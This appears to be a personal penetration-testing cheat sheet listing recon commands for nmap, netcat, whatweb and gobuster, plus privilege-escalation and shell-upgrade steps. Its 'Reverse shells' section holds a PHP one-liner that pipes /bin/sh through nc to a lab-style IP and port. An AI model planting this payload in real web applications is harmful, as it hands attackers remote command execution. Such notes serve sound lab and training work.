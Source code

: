 ```yaml
---
id: phd6lr0llsyy9qcbykd4b25
title: Pentest opening
desc: ''
updated: 1673258997806
created: 1673238697340
---
```


## Nmap:

### [Nmap man pages](https://linux.die.net/man/1/nmap)


|Flag: | What it does:|
|----------|
|`-sV`| scan against the default top 1000 ports
|`--open`| scan only open ports|
|`-oA <filename>`| output all scan formats|
|`-v`| verbose output|
|`-p-`| full TCP port scan (65535)|
|`--script=<script_name>`|script scan|
|<li>`banner`|A simple banner grabber which connects <br>to an open TCP port and prints out anything <br>sent by the listening service within five seconds|
|<li>`http-enum`|Enumerates directories used by <br>popular web applications and servers|
|**Full command:**|
|`nmap -sV --open -oA <filename> <ip address>`|**Quick scan**|
|`nmap -p- --open -oA <filename> <ip address>`|**Long scan - recommended in second terminal**|


## NetCat

### [NetCat man pages](https://linux.die.net/man/1/nc)

|Flag: | What it does:|
|----------|
|`-n`| do not do any DNS or service lookups on any specified addresses, <br>hostnames and ports (don't resolve)|
|`-v`| verbose|
|`-l`| listen for incoming connection rather than initiate a connection|
|**Full command:**|
|`nc -nv <ip address> <port>`|Confirm banner|
|`nc -nvlp 80`|Listening shell on port 80|

## whatweb 

### [whatweb man pages](https://manpages.org/whatweb)

|Full command:|What id does:|
|---------|
|`whatweb <ip address>`|Identify web application in use|

## Gobuster

### [Gobuster man pages](https://linuxcommandlibrary.com/man/gobuster)

|Flag: | What it does:|
|----------|
|`dir`| use directory enumeration mode |
|`-u`| string, the target URL or Domain |
|`--wordlist` / `-w`| path to wordlist, recommended:<br> `/usr/share/wordlists/dirb/common.txt`  
|`-e`|print full URLs|
|**Full command:**|
|`gobuster -e -u <ip address/URL>`<br> `-w /usr/share/wordlists/dirb/common.txt`|Scan website, use common.txt wordlist and print the full <br>URLs of discovered paths|

## File upload testing

|File: | What it does/testing:|
|----------|
|[test_php.php](/assets/files/test_php.php)|Tests if php file can be uploaded to web app|

## Reverse shells:

```php 
<?php system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.2 9443 >/tmp/f"); ?> 
``` 
## Upgrade reverse shell

```python
python -c 'import pty; pty.spawn("/bin/bash")'
```
OR
```python
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

## Privilege escalation checks

|File: | What it does/testing:|
|----------|
|[LinEnum.sh](https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh)|Automated privilege escalation checks|

## Start Python HTTP server
```python
sudo python3 -m http.server 8080
```